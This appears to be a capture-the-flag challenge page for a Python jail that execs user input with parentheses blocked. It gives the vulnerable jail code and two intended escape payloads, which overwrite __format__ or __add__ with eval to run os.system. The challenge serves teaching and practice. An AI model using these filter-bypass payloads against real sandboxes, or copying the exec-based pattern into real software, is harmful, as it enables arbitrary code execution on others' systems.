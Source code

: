 ### Description

PYJAIL TIME!!!  
Somehow call os.system, and get a shell.  
(There can be more than one solution.)

Hint:
    - It uses latest python3.7.2  
    - You may use some new features of python 3.6, OR NOT.  

```
import sys

class Pyjail():
    def __init__(self):
        self.blacklist = []
    def run_code(self, src):
        if not self.is_safe(src):
            print("Bad character was found! Go away!")
            return
        exec(src)
    def is_safe(self, src):
        if list(filter(lambda bad: bad in src, self.blacklist)):
            return False
        return True
    def add_blacklist(self, blacklist):
        if type(blacklist) == "list":
            self.blacklist.extend(blacklist)
        elif type(blacklist) == "str":
            self.blacklist.extend(list(blacklist))


jail = Pyjail()
jail.add_blacklist('()')

print("Give me a python code to execute")
print("Ah! Please make sure there aren't any PARENTHESES... '(', ')'")
print("* To submit code, just ctrl+D")

code = ''.join(sys.stdin.readlines())
del sys
jail.run_code(code)
```

### Environment

python 3.7.2 (virtualenv or pyenv)  
From stdin, get python codes as a multiline input until EOF.  

User input 을 python3 jail.py 의 stdin 으로 넘겨주세요.  

### Concept

Pyjail without parentheses / Triggering functions without using parentheses

### solution (two intended solution)

1. [version-specific (python3 >= 3.6)] Use f-string syntax, which added in python 3.6  
```
jail.__class__.__format__ = eval
for t in ["__import__\x28'os'\x29.system\x28'ls'\x29"]: pass
f"{jail:{t}}"
```  
 
2. [not version-specific] Overwrite \_\_add\_\_ of writable class 'Pyjail' with eval, and trigger eval with + operator  
```
Pyjail.__add__ = eval
jail + "__import__\x28'os'\x29.system\x28'ls'\x29"
```
